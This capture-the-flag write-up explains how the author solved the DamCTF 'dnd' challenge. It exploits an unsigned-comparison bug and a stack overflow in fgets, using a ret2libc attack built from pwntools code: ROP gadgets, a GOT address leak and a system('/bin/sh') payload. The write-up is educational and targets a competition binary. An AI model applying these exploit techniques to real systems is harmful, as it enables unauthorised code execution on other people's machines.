 # pwn/dnd
by captainGeech

150 solves / 404 points

> Dungeons and Dragons is fun, but this is DamCTF! Come play our version
> 
> `nc dnd.chals.damctf.xyz 30813`
>
> [dnd.zip](dnd.zip)
> 

## Overview
This challenge is a pwn ret2libc via buffer overflow challenge, preluded by a simple game with an improper cast bug.

## Writeup

This is what the zip file contains:

```plaintext
dnd.zip
├── dnd
├── ld-linux-x86-64.so.2
└── libc.so.6
```

The `dnd` binary is a 64-bit ELF file. It is a simple game where you choose whether to fight or avoid an enemy, collecting points along the way. 

```
##### Welcome to the DamCTF and Dragons (DnD) simulator #####
Can you survive all 5 rounds?

>>> Round 1
Points: 0 | Health: 10 | Attack: 5
New enemy! You are now facing off against: Skittershank the Gremlin (2 health, 1 damage)
Do you want to [a]ttack or [r]un? 
```

Interestingly, sometimes after a fight, points can become a negative integer. If the game ends with the points in the negative, the game thinks you've won. 

```cpp
bool Game::DidWin() {
	return 99 < points; // unsigned comparison
}
```

Running instead of attacking will not change your points, so the main win tactic is simply to attack until points become negative, and then running away at all subsequent rounds.

Upon winning, the game asks for your name and fails to prevent a buffer overflow:

```
Congratulations! Minstrals will sing of your triumphs for millenia to come.
What is your name, fierce warrior? 
```

```cpp
void win() {
	char warrior_name [32];
	std::cout << "Congratulations! Minstrals will sing of your triumphs for millenia to co me." << std::endl;
	std::cout << "What is your name, fierce warrior? ";

	fgets(warrior_name, 256, stdin); // <- buffer overflow

	// ...
}
```

PIE and canaries are disabled in the binary

```
>>> from pwn import *
>>> elf = ELF('dnd')
[*] 'dnd'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found   # !
    NX:         NX enabled
    PIE:        No PIE (0x400000) # !
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

But no functions in `dnd` call any interesting functions, but since it uses `libc.so.6`, we can use ret2libc to get a shell.

> My most useful resource in executing this is RazviOverflow's video
> 
> [![Exploiting Return to Libc (ret2libc) tutorial - pwn109 - PWN101 | TryHackMe](docs-img/ret2libc-vid.jpg)](https://www.youtube.com/watch?v=TTCz3kMutSs)

### ret2libc

The end goal is to call `system("/bin/sh")`.

First, the two ROP gadgets used were found using ROPgadget:

```
0x0000000000402640 : pop rdi ; nop ; pop rbp ; ret
0x000000000040201a : ret
```

With RDI control, we invoke `puts` to leak the address of libc functions from the global offset table (GOT) imported in `dnd`, namely `fgets`, `puts`, and `rand`—leaking several addresses lets us crosscheck leaked results.

```python
elf = ELF('./dnd')

pop_rdi_pop_rbp_ret = p64(0x0000000000402640) # pop rdi ; nop ; pop rbp ; ret
ret = p64(0x000000000040201a) # ret

plt_puts_addr = p64(elf.plt.puts)
got_puts_addr = p64(elf.got.puts)
got_fgets_addr = p64(elf.got.fgets)
got_rand_addr = p64(elf.got.rand)
main_fn_addr = p64(0x00402988)

dummy_rbp = b'B' * 8

payload = flat(
    b'A' * 0x68,
    pop_rdi_pop_rbp_ret + got_puts_addr + dummy_rbp + plt_puts_addr,
    pop_rdi_pop_rbp_ret + got_fgets_addr + dummy_rbp + plt_puts_addr,
    pop_rdi_pop_rbp_ret + got_rand_addr + dummy_rbp + plt_puts_addr,
		main_fn_addr, # call main() again for later
    b'\0',
)

shell.sendline(payload) # GO

shell.recvuntil(b'A' * 32) # consume warrior name
output = shell.recvuntil(b'##### Welcome to the DamCTF and Dragons').split(b'\n')

leaked_puts_addr = u64(output[1].ljust(8, b'\x00'))
leaked_fgets_addr = u64(output[2].ljust(8, b'\x00'))
leaked_rand_addr = u64(output[3].ljust(8, b'\x00'))
```

Oddly, the address for `puts` is mangled, so we rely on `fgets` and `rand`. Their addresses are compared with the libc file provided in the zip file, and the offsets are calculated. 

```python
libc = ELF('./libc.so.6')
libc_base = leaked_fgets_addr - libc.symbols['fgets']

system_addr = libc_base + libc.symbols['system']
fgets_addr = libc_base + libc.symbols['fgets']
rand_addr = libc_base + libc.symbols['rand']
bin_sh_addr = libc_base + next(libc.search(b'/bin/sh\x00'))

print('Got dynamic addresses:')
print(f' - system: {hex(system_addr)}')
print(f' - fgets: {hex(fgets_addr)}')
print(f' - rand: {hex(rand_addr)}')
print(f' - bin_sh: {hex(bin_sh_addr)}')
print(f' - offset: {libc_base}')
```

With the final addresses to call `system("/bin/sh")`, we can build the final payload and send it without restarting the connection and reshuffling the libc address randomization, which we can do because we had previously made `dnd` return to `main()` to play the game again. 

A `ret` instruction is added to align the stack (the number of `ret`s is determined by trial and error). 

```python
payload = flat(
    b'A' * 0x68,
    ret, # align stack
    pop_rdi_pop_rbp_ret + p64(bin_sh_addr) + dummy_rbp + p64(system_addr),
    b'\0',
)

shell.sendline(payload)
shell.interactive()
```

Voila!

```
dam{w0w_th0s3_sc4ry_m0nster5_are_w3ak}
```

The full exploit is in `solve.py`.
